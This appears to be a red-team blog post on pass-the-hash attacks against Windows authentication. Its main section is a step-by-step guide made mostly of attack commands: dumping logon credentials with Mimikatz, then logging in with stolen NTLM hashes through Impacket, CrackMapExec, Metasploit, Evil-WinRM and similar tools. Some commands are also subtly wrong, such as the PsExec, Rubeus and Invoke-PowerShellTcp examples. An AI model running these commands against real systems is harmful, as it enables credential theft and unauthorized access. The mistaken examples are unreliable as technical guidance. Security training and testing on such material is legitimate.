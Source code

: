 ```yaml
---
layout: blog
title: "Pass-the-Hash Attack: An In-Depth Look with Examples and Commands"
tags: redteaming c2
comments: true
date: 2023-04-08
---
```


# Pass-the-Hash Attack: An In-Depth Look with Examples and Commands

Pass-the-Hash (PtH) is a well-known attack technique that targets Windows authentication systems. It enables attackers to use a user's password hash, instead of the plain-text password, to authenticate to network resources. In this blog post, we will dive into the details of this attack, discuss examples and commands, and provide a real-world attack scenario.

## Understanding Pass-the-Hash

Windows systems primarily use two types of authentication protocols: NTLM (NT LAN Manager) and Kerberos. Both protocols store password hashes, which are fixed-length representations of a user's password. When a user logs in, Windows checks the entered password's hash against the stored hash. If they match, the user is granted access.

In a PtH attack, the attacker captures a user's password hash and uses it to authenticate to network resources as the targeted user, without needing to know the plain-text password. This allows the attacker to bypass many security controls and gain unauthorized access to sensitive data.
<br/>
## How to Perform a Pass-the-Hash Attack

Here is a step-by-step guide to performing a PtH attack, including the tools and commands:

<br/>
1. **Capture the password hash**: The first step is to obtain the target user's password hash. This can be done using various methods, such as dumping hashes from the Security Account Manager (SAM) database or extracting hashes from a system's memory using tools like Mimikatz.

Example command using Mimikatz:

```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```


<br/>
2. **Use the captured hash for authentication**: Once the password hash is obtained, the attacker can use it to authenticate to network resources. Tools like PsExec or CrackMapExec can be used to perform PtH attacks.

### For Kali Linux/Linux

1. **Impacket (pth-winexe)**
```bash
pth-winexe -U TARGET_DOMAIN/USER%NTLM_HASH //TARGET_IP cmd
```
2. **Impacket (secretsdump.py)**
```bash
python3 secretsdump.py -ntds TARGET_DOMAIN/USER:PASSWORD@TARGET_IP
```
3. **CrackMapExec**
```bash
crackmapexec smb TARGET_IP -u USER -H NTLM_HASH
```
4. **Metasploit Framework (auxiliary module: smb_login)**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBDomain TARGET_DOMAIN
set SMBUser USER
set SMBPass NTLM_HASH
run
```
5. **Evil-WinRM**
```bash
evil-winrm -i TARGET_IP -u USER --hash NTLM_HASH
```
6. **Wmiexec**
```bash
wmiexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```
7. **Smbexec**
```bash
smbexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```

### For Windows

1. **Mimikatz**
```bash
mimikatz.exe "sekurlsa::pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /run:cmd.exe" "exit"
```

2. **PowerShell Empire**
```bash
.\Invoke-PowerShellTcp.ps1 -Hash NTLM_HASH -Username USER -Domain TARGET_DOMAIN -IPAddress TARGET_IP
```

3. **PsExec**
```bash
psexec.exe \\TARGET_IP -u TARGET_DOMAIN\USER -p NTLM_HASH cmd.exe
```
4. **Rubeus**
```bash
Rubeus.exe pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /target:TARGET_IP
```


## Conclusion

Pass-the-Hash attacks are dangerous because they exploit inherent weaknesses in Windows authentication mechanisms. To defend against PtH attacks, organizations should adopt a multi-layered security approach, including:

- Implementing privileged access management (PAM)
- Regularly patching and updating software
- Using strong, unique passwords
- Enabling security features like Credential Guard
- Restricting the use of administrative accounts

Understanding how Pass-the-Hash attacks work, along with effective mitigation strategies, is essential to protect your organization from unauthorized access and data breaches.
